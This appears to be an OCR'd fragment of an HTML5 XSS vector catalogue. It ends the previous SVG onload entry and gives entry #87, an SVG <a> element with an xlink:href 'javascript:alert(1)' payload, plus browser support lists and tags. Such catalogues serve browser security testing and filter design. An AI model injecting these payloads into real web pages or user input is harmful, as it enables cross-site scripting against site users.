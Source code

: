 *   firefox 2.0
*   firefox latest

*   opera 9.x
*   opera latest

*   internet explorer 9.0
*   internet explorer latest

*   xss
*   svg
*   onload
*   chrome
*   firefox
*   safari
*   opera

*   [http://www.w3.org/TR/SVG11/attindex.html](http://www.w3.org/TR/SVG11/attindex.html)
*   [http://www.w3.org/TR/SVGTiny12/attributeTable.html](http://www.w3.org/TR/SVGTiny12/attributeTable.html)

reporter：gareth

### SVG simple passive JavaScript execution via XLink[#87](#87)[test](test/#87)

Browsers that support SVG, forced to support XLink. The parameter of the attribute "xlink:actuate" for &lt;a&gt; tag is fixed - "onRequest".


```
<svg xmlns="http://www.w3.org/2000/svg"> <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="javascript:alert(1)"><rect width="1000" height="1000" fill="white"/></a> </svg>
```

*   chrome 4.0
*   chrome latest

*   safari 3.4
*   safari latest

*   firefox 3.0
*   firefox latest

*   opera 9.x
*   opera latest

*   internet explorer 6.0
*   internet explorer latest

*   xss
*   svg
*   passive
*   xlink
*   chrome
*   firefox
*   safari
*   opera
